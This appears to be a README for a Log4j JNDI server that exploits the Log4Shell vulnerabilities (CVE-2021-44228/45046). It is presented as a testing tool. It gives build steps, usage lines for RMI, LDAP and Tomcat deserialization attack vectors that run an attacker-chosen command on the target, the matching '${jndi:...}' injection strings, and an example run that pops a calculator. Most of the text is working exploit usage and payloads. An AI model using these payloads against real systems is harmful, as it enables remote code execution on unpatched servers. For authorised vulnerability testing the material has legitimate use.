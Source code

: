 # Log4j-JNDIServer

This project will help to test the Log4j CVE-2021-44228/CVE-2021-45046 vulnerabilities.

## Installation and Building

- Load the project on Intellij Idea
- Select JDK in "Projects Settings" (CTRL + ALT + SHIFT + S)
- In "Project Settings", create the Artifact -> "Artifacts" -> "Create JAR from Modules" -> In "JAR files from libraries", mark "extract to target JAR" -> "OK"
- Build Project (CTRL + F9). This will create the jar file in /out/artifacts/ folder

### Building with Maven

Requires Java 1.8+ and Maven 3.x+

- `mvn clean package -DskipTests`
- You will find the .jar file in /target folder

## Usages 

### 1.RMI Attack Vector

`java -jar Log4j-JNDIServer-1.0-SNAPSHOT-all.jar 1 <RMI_IP> <RMI_PORT> <HTTP_PORT> <COMMAND>`

You don't need to host the Exploit.class anymore. The app will start an HTTP server on the indicated port.

You must indicate the command you want to run in the target.

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`

### 2.LDAP Attack Vector

`java -jar Log4j-JNDIServer-1.0-SNAPSHOT-all.jar 2 <LDAP_IP> <LDAP_PORT> <HTTP_PORT> <COMMAND>`

You don't need to host the Exploit.class anymore. The app will start an HTTP server on the indicated port.

You must indicate the command you want to run in the target.

`Injection: {jndi:ldap://<LDAP_IP>:<LDAP_PORT>/Exploit}`

### 3.Deserialization Attack Vector (Using Tomcat payload)

`java -jar Log4j-JNDIServer-1.0-SNAPSHOT-all.jar 3 <RMI_IP> <RMI_PORT> <COMMAND>`

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`

## Example

```shell
$ java -jar Log4j-JNDIServer-1.0-SNAPSHOT-all.jar 3 127.0.0.1 1389 /usr/bin/gnome-calculator
- Starting RMI Server for Tomcat  -
- Creating RMI Server on port 1389 -
- Reference bound! -
- RMI server started at 127.0.0.1:1389 -
- Log4J Injection Path: ${jndi:rmi://127.0.0.1:1389/Foo} -
